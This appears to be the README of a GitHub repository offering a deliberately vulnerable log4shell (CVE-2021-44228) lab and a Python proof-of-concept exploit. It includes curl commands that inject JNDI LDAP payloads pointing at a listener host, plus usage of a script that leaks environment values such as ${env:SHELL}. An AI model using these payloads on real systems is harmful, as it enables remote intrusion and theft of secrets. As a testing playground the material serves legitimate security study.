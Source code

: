 # log4jpwn

log4j rce test environment. See: <https://www.lunasec.io/docs/blog/log4j-zero-day/>

This repository contains an intentionally vulnerable playground to play with CVE-2021-44228 (aka: log4shell)

Experiments to trigger the vulnerability in various software products mentioned [here](https://github.com/NCSC-NL/log4shell/tree/main/software) can be found in the [vuln-software/](vuln-software/) directory.

## examples

![1](images/image.png)

using the included python poc

![2](images/poc.png)

## build

Either build the jar on your host with:
> mvn clean compile assembly:single

Or use `docker` to build an image with: 
> docker build -t log4jpwn


## run

The server will log 3 things (which are also the triggers). You don't have to set all 3:

- The `User-Agent` header content
- The request path
- The `pwn` query string parameter

To use:

- Run the container with:
> docker run --rm -p8080:8080 log4jpwn

(or the jar if you built on your host with `java -jar target/log4jpwn-1.0-SNAPSHOT-jar-with-dependencies.jar`)
- Make a `curl` request with a poisoned `User-Agent` header with your payload. eg:
> curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:8080

, where 172.16.182.1 is where my netcat lister is running.

A complete example for all 3 bits that gets logged:

> bash
curl -v -H 'User-Agent: ${jndi:ldap://192.168.0.1:443/a}' 'localhost:8080/${jndi:ldap://192.168.0.1:443/a}/?pwn=$\{jndi:ldap://192.168.0.1:443/a\}'


## run - exploit

The python exploit will leak values. By default it will try `${java:version}`, but you can specify anything with the `--leak` flag.

Usage is:

```text
❯ ./pwn.py --help
usage: pwn.py [-h] --target TARGET [--listen-host LISTEN_HOST] [--listen-port LISTEN_PORT] --exploit-host EXPLOIT_HOST [--leak LEAK]

a simple log4j <=2.14 information disclosure poc (ref: https://twitter.com/Black2Fan/status/1470281005038817284)

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target uri
  --listen-host LISTEN_HOST
                        exploit server host to listen on (default: 127.0.0.1)
  --listen-port LISTEN_PORT, -lp LISTEN_PORT
                        exploit server port to listen on (default: 8888)
  --exploit-host EXPLOIT_HOST, -eh EXPLOIT_HOST
                        host where (this) exploit server is reachable
  --leak LEAK, -l LEAK  value to leak. see: https://twitter.com/Rayhan0x01/status/1469571563674505217 (default: ${java:version})
```

Example runs:

- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --leak '${env:SHELL}'`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --listen-port 5555`
